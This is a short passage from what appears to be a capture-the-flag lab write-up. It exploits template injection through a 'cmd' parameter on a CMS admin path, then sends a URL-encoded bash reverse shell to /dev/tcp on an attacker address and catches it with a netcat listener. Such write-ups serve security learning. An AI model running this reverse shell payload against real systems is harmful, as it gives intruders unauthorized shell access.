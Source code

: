 ![](img/2022-06-14-17-08-30.png)
Now, if we access to the template injecting `cmd=id`:
![](img/2022-06-14-17-38-01.png)

Now if we send a payload `bash -c 'bash -i >& /dev/tcp/10.10.14.7/3333 0>&1'` urlencoded as `cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/3333+0>%261'`, we can /admin/Cms_Wysiwyg/directive/index/
![](img/2022-06-14-17-33-52.png)
Now, if we listen to port 3333 on our machine:
```bash
❯ nc -nlvp 3333
Connection from 10.10.10.140:43138
```